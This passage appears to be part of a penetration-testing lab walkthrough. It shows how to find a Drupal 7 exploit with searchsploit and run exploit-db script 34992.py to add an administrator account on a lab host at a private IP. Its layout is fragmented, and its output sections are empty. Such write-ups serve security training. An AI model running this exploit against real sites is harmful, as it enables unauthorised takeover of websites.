


4.1 Search exploit
a) Use “searchsploit” tool on your Kali Machine to search in the database.
$ searchsploit drupal 7
Output:

We'll use an exploit that Add Admin User.
b) Let's use the exploit.
We'll create an “Admin” accoount with the following credentials:
User: hackingkcs
Password: P@ssw0rd
$ python
/
usr
/
share
/
exploitdb
/
exploits
/
php
/
webapps
/
34992.py -u hackingkcs -p P@ssw0rd -t http
://
192.168.12.37
Output:

Index